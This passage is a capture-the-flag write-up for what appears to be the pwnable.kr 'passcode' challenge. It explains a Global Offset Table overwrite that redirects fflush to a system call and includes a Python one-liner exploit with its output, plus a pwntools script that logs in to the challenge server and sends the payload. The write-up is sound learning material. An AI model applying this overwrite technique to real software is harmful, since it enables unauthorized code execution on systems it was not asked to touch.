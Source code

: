 Here `0x804a004` is the address of .got.plt section which will jump back to .plt intially and once printf address has been decoded, it is written in the .got.plt section

We can overwrite the content of `0x804a004` address with anything to execute that instead , when fflush is called.

So what all information do we have,

- we can overwrite `passcode1`
- `fflush` can be used to execute custom instuctions (`system` command here).
- Partial RELRO is enabled

So we will use `name` to overwrite `passcode1` with the address `0x804a004`, then we will use scanf to write `0x080485e3` (in base10 form, since %d in scanf) at `0x804a004` as its where system call to read flag starts.

```c
0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
0x080485ea <+134>:	call   0x8048460 <system@plt>
```

`0x080485e3` ⇒ **134514147**

so this is our exploit

```c
**❯ python -c "print '\x01'*96 + '\x04\xa0\x04\x08' + '134514147'" | ./passcode**
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome !
**/bin/cat: flag: No such file or directory**
enter passcode1 : Now I can safely trust you that you have credential :)
```

we can login on the ssh server and do the above, or below is a script using [pwntools](https://www.notion.so/pwntools-0b8a5451f8ab4452900f2931df2b652f) to do the same

```python
from pwn import *
context.log_level = 'debug' # makes it more verbose

# ssh passcode@pwnable.kr -p2222 (pw:guest)
session = ssh(host='pwnable.kr',user='passcode', port=2222,password='guest')

# Executes a process on the remote server
process = session.process(executable='./passcode')

# create payload
fflush = 0x804a004
syscommand = 0x080485e3

pl = b'a'*96
pl += p32(fflush)
pl += str(int(syscommand)).encode('ascii')

# send payload
print(process.recvline())
process.sendline(pl)
print(process.recvall())
process.close()
```
